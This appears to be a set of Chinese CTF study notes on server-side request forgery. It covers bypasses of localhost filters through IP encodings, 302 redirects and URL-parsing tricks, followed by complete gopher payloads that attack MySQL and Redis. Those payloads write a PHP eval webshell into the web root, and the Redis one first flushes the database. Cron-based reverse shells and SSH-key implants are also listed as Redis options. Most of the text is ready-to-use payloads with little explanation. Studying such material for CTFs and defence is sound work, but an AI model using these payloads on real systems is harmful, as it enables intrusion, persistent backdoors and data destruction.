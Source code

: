 过滤了/localhost|127.0.0
可用 127.0.1
127.1
进制转绕过

- 2130706433 10 进制 http://2130706433
- 017700000001 8 进制 http://017700000001
- 7F000001 16 进制 http://0x7F000001

过滤了 0,1
利用 302 跳转（需要有域名）

```php
<?php
header("Location:http://127.0.0.1/flag.php");

```

url=http://sudo.cc/flag.php

绕过前缀限制和后缀限制

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if(preg_match('/^http:\/\/ctf\..*show$/i',$url)){
    echo file_get_contents($url);
}
```

url=http://ctf.@127.0.0.1/flag.php?show

ssrf 攻击 mysql，redis

mysql 可以利用 gopherus 生成 payload
直接写马

```sql
select '<?php eval($_POST[mob]);?>' into outfile '/var/www/html/mob.php';

-- gopher://127.0.0.1:3306/_%a3%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%72%6f%6f%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%4a%00%00%00%03%73%65%6c%65%63%74%20%27%3c%3f%70%68%70%20%65%76%61%6c%28%24%5f%50%4f%53%54%5b%6d%6f%62%5d%29%3b%3f%3e%27%20%69%6e%74%6f%20%6f%75%74%66%69%6c%65%20%27%2f%76%61%72%2f%77%77%77%2f%68%74%6d%6c%2f%6d%6f%62%2e%70%68%70%27%3b%01%00%00%00%01

-- _之后再进行一次编码即可

```

ssrf 打 redis：
写 webshell
写 ssh 公钥
写计划任务反弹 shell
主从复制

也是利用 gopherus 生成 payload，但是如果写不进去的话需要注意是否取消 url 编码？

```
gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2430%0D%0A%0A%0A%3C%3Fphp%20eval%28%24_POST%5Bmob%5D%29%3B%3F%3E%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2413%0D%0A/var/www/html%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%249%0D%0Ashell.php%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0A


```

dict 协议也能进行 ssrf

